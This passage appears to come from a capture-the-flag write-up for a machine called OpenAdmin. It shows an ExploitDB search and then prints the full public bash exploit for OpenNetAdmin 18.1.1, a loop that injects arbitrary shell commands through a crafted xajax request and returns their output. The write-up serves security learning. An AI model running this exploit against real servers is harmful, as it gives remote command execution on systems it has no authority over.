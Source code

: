 ![ExploitDB search](../assets/images/openadmin/exploitsearch.png)

## Exploit

From the two results in ExploitDB, I'm going to choose to use the remote code execution vulnerability. Lets take a look at that below.

![Exploit header](../assets/images/openadmin/exploitheader.png)


```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

